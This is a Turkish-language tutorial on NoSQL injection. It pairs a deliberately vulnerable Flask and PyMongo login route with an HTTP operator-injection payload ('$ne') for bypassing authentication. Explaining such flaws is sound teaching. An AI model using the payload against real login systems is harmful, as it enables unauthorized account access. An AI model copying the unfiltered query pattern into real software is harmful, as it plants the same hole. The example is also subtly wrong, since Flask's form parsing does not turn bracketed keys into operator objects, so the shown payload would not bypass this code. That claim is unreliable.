# NoSQL Injection
NoSQL Injection, web uygulamalarında kullanılan MongoDB gibi NoSQL tabanlı veritabanlarının kullanıcı girdisini doğru şekilde filtrelemeden sorgulara dahil etmesi sonucu ortaya çıkan kritik bir güvenlik açığıdır. SQL Injection ile benzer mantığa sahiptir, ancak klasik SQL yerine JSON benzeri query yapıları manipüle edilir. Bu zafiyet sayesinde saldırgan authentication bypass, yetkisiz veri erişimi, veri manipülasyonu ve bazı durumlarda remote code execution gerçekleştirebilir.

NoSQL Injection genellikle şu koşullarda görülür:
- Kullanıcı girdisinin doğrudan MongoDB query objesine eklenmesi
- Query operatörlerinin ($ne, $gt, $regex, $where) filtrelenmemesi

Sonuç: Saldırgan login atlatma, hassas verileri çekme, yetki yükseltme gibi saldırılar gerçekleştirebilir.

# NoSQL Injection Saldırısının İşleyişi
Aşağıda, NoSQL Injection zafiyetine sahip basit bir Flask + PyMongo uygulaması örneği bulunmaktadır:
```py
from flask import Flask, request
from pymongo import MongoClient

app = Flask(__name__)
client = MongoClient("mongodb://localhost:27017/")
db = client["usersdb"]
users = db["users"]

@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('username')
    password = request.form.get('password')
    
    # Kullanıcı girdisi direkt olarak Mongo query'e aktarılıyor
    user = users.find_one({"username": username, "password": password})
    
    if user:
        return "Login başarılı! Hoşgeldin " + user['username']
    else:
        return "Login başarısız!"
    
if __name__ == "__main__":
    app.run(debug=True)
```

Geliştirici, normalde girişin şu şekilde çalışacağını varsayar:
```http
POST /login
username=baran&password=123456
```

Ancak saldırgan aşağıdaki payload ile authentication atlatabilir:
```http
POST /login
username[$ne]=foo&password[$ne]=bar
```

MongoDB query şu hale gelir:
```
{ "username": { "$ne": "foo" }, "password": { "$ne": "bar" } }
```

Bu sorgu, “username foo değil ve password bar değil” koşulunu sağlayan herhangi bir kullanıcıyı döndürecektir.

